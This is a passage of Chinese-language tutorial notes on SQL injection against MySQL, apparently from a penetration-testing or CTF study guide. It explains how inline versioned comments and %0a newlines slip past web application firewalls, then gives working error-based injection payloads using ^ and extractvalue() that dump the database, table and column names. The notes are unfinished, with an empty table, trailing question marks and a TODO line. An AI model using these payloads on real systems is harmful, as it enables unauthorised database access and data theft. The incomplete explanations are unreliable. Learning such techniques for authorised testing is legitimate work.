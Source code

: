 MySQL为了保证与其它数据库兼容，于是将MySQL特有的语法放在`/*!...*/`中。其它SQL数据库会将其视为注释，但是MySQL可以执行。也可以通过一个五位数来指定该语句执行所需的MySQL最低版本，例如`/*!50001... */`表示MySQL版本`>=5.00.01`时才能执行。

### §4.5.2 `%0a`/`%0b`/`%0c`

| ASCII码 | 含义 |
| ------- | ---- |
|         |      |
|         |      |
|         |      |

`%0a`是换行的意思。这个字符的神奇之处在于它能绕过注释的限制。例如`-- abc /* %0a */`，其中`--`后的字符被解析为注释，直到遇到了`%0a`另起一行。我们知道`--`是单行注释，因此不会干扰下一行，于是这个句子完全等价于`*/`。

将`%0a`与[§4.5.1 内联注释`/**/`](###§4.5.1 内联注释`/**/`)一节介绍的内容结合，我们就能对MySQL实现完美的WAF绕过：

```sql
> id=1'/**/union/*!50001select*//*!1,2,3*/--abc/*%0afrom/**/admin#*/
→ id=1' union select 1,2,3 -- abc/*
	from admin #*/
```







对于这个注入点：`SELECT * FROM users WHERE id='' LIMIT 0,1`，并且过滤了空格与`and`、`or`，可以使用`^`运算符。其优点在于这个二元运算符两侧的表达式之间不必有空格，可以错误注入。

`select username from ... where ...`包含空格，那么我们就用`select(username)from(...)where(...)`

不能用`where(id=1)`的`=`，我们就用`where((列名)like('数据'))`

不幸的是，`LIMIT`子句没有`LIMIT(1)`、`LIMIT(0),(1)`、`LIMIT(0,1)`之类的绕过方法，必须带空格。所以无法通过`LIMIT`指定输出哪一行的数据

`left()`与`right()`会在数据库有多行时返回多行，需要用`group_concat()`变成一行，才能？？？？

爆数据库名：

```sql
?id=1'^extractvalue(1,concat(0x7e,(select(database()))))%23
```

爆表名：

```sql
?id=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('数据库名')))))%23
```

爆列名：

```sql
?id=1'^extractvalue(0x0a,concat(0x0a,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('表名')))))%23
```

或者TODO：？？？？？？？`select/**/*/**/from/**/users`
